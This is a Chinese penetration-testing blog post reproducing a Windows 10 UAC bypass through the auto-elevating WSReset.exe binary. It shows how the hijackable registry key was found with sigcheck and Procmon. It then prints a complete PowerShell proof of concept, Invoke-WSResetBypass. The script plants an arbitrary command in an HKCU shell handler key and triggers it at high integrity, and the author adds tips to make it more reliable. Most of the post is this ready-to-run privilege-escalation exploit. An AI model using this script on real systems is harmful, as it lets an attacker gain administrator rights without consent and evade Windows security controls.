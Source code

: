 ```yaml
---
title: "Win10利用应用商店WSReset.exe进行bypassuac"
date: 2020-05-09T10:32:20+08:00
draft: false
tags:
- bypassuac
- 渗透测试
series:
-
categories:
- 渗透测试
---
```


遇到了win10的环境就找了下bypassuac的.
<!--more-->
## 环境
win10 1909 18363.535 Pro

## 复现
利用微软提供的[sigcheck.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck)签名检查工具发现`C:\Windows\System32\WSReset.exe`存在`autoElevate`属性为`true`

![image.png](https://y4er.com/img/uploads/20200509104541.png)

使用Procmon64.exe添加过滤条件

![image.png](https://y4er.com/img/uploads/20200509108734.png)

没找到`HKCU\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command`

根据[微软文档](https://docs.microsoft.com/en-us/windows/win32/sysinfo/hkey-classes-root-key)可知用户特定的设置优先于默认设置，而当前用户可以写入这个值，那么可以使用powershell来实现poc。

```powershell
<#
.SYNOPSIS
Fileless UAC Bypass by Abusing Shell API

Author: Hashim Jawad of ACTIVELabs

.PARAMETER Command
Specifies the command you would like to run in high integrity context.
 
.EXAMPLE
Invoke-WSResetBypass -Command "C:\Windows\System32\cmd.exe /c start cmd.exe"

This will effectivly start cmd.exe in high integrity context.

.NOTES
This UAC bypass has been tested on the following:
 - Windows 10 Version 1803 OS Build 17134.590
 - Windows 10 Version 1809 OS Build 17763.316
#>

function Invoke-WSResetBypass {
      Param (
      [String]$Command = "C:\Windows\System32\cmd.exe /c start cmd.exe"
      )

      $CommandPath = "HKCU:\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command"
      $filePath = "HKCU:\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command"
      New-Item $CommandPath -Force | Out-Null
      New-ItemProperty -Path $CommandPath -Name "DelegateExecute" -Value "" -Force | Out-Null
      Set-ItemProperty -Path $CommandPath -Name "(default)" -Value $Command -Force -ErrorAction SilentlyContinue | Out-Null
      Write-Host "[+] Registry entry has been created successfully!"

      $Process = Start-Process -FilePath "C:\Windows\System32\WSReset.exe" -WindowStyle Hidden
      Write-Host "[+] Starting WSReset.exe"

      Write-Host "[+] Triggering payload.."
      Start-Sleep -Seconds 5

      if (Test-Path $filePath) {
      Remove-Item $filePath -Recurse -Force
      Write-Host "[+] Cleaning up registry entry"
      }
}
```

在我自己测试的过程中因为WSReset.exe启动过慢的情况出现了多次复现不成功，建议把powershell脚本去掉后面的清空注册表，避免WSReset运行时找不到注册表，不过记得手动清除。

![image.png](https://y4er.com/img/uploads/20200509105277.png)

## 参考
1. https://www.activecyber.us/activelabs/windows-uac-bypass
2. https://github.com/sailay1996/UAC_Bypass_In_The_Wild


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**
